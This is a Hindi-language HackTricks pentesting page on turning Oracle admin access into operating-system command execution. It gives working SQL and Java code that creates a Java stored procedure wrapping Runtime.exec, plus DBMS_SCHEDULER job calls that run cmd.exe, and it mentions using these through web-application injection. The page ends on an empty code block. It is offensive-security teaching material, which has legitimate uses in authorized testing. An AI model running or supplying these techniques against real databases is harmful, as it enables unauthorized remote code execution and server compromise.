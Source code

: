 <details><summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम एक्सपर्ट)</strong></a><strong> के साथ!</strong></summary></details>


# RCE: Java Store Procedure

तो, कल्पना कीजिए कि आपके पास प्रशासक खाते की जानकारी है। इस मामले में, सर्वर पर अपना कमांड निष्पादित करने का एक बहुत लोकप्रिय तरीका 'जावा स्टोर्ड' प्रोसीजर लिखना है। यह तीन चरणों में किया जाता है। पहले, 'oraexec' नामक एक जावा क्लास बनाएं। इसे करने के लिए, 'sqlplus' टर्मिनल के माध्यम से कनेक्ट करें और लिखें:
```text
create or replace and resolve java source named "oraexec" as
import java.lang.*;
import java.io.*;
public class oraexec
{
public static void execCommand(String command) throws IOException
{
Runtime.getRuntime().exec(command);
}
}
/

```
इसके बाद, इस क्लास के लिए एक PL/SQL रैपर लिखें:
```text
create or replace procedure javacmd(p_command varchar2) as language java name 'oraexec.execCommand(java.lang.String)'; /
```
बस, अब किसी कमांड को निष्पादित करने के लिए, आपको केवल निम्नलिखित क्वेरी भेजने की आवश्यकता है:
```text
exec javacmd('command');
```
ध्यान दें कि जब ऊपर दी गई प्रक्रिया का उपयोग करते हैं, तो हम निष्पादित कमांड के परिणाम नहीं देख सकते हैं, हालांकि, आप आउटपुट को एक फाइल में रीडायरेक्ट कर सकते हैं और इसे पढ़ सकते हैं। आप उस शेल का पूरा कोड जो फाइलों को पढ़ने और लिखने की अनुमति देता है, यहां पा सकते हैं:

{% file src="../../.gitbook/assets/raptor_oraexec.sql" %}

हालांकि, एक \[अधिक सोफिस्टिकेटेड स्क्रिप्ट\] \(goo.gl/EuwPRU\) है जो कमांड आउटपुट को हैंडल करती है, लेकिन इसका आकार बड़ा है [यहां](https://oracle-base.com/articles/8i/shell-commands-from-plsql)।

# RCE: Scheduler

अगली विधि, जो हमारी मदद करेगी अगर कोई Java वर्चुअल मशीन नहीं है, वह है ‘dbmsscheduler’ का उपयोग करना, जो Oracle का निर्मित कार्य अनुसूचक है। इसका उपयोग करने के लिए, आपके पास ‘CREATE EXTERNAL JOB’ विशेषाधिकार होना चाहिए। यहां एक कोड नमूना है जो C: ड्राइव की रूट में एक टेक्स्ट फाइल में ‘0wned’ स्ट्रिंग के प्रवेश को लागू करता है:
```text
exec DBMS_SCHEDULER.create_program('RDS2008','EXECUTABLE','c:\ WINDOWS\system32\cmd.exe /c echo 0wned &gt;&gt; c:\rds3.txt',0,TRUE);
exec DBMS_SCHEDULER.create_job(job_name =&gt; 'RDS2008JOB',program_name =&gt; 'RDS2008',start_date =&gt; NULL,repeat_interval =&gt; NULL,end_date =&gt; NULL,enabled =&gt; TRUE,auto_drop =&gt; TRUE);
```
यह आपके कमांड को निष्पादित करने के लिए एक जॉब बनाएगा और चलाएगा। और यहाँ एक विकल्प है दूसरी प्रक्रिया से Scheduler को कॉल करने के लिए - 'SYS.KUPP$PROC.CREATE_MASTER_PROCESS', जो हमारे लिए मुख्य रूप से इसलिए दिलचस्प है, क्योंकि यह आपको मल्टी-स्टेटमेंट क्वेरीज़ को एम्बेड करने की अनुमति देता है, यानी वे क्वेरीज़ जो कई उप-क्वेरीज़ से मिलकर बनी होती हैं। सैद्धांतिक रूप से, आप ऐसी क्वेरी को वेब एप्लिकेशन में इंजेक्शन के मामले में भी चला सकते हैं।
```text
```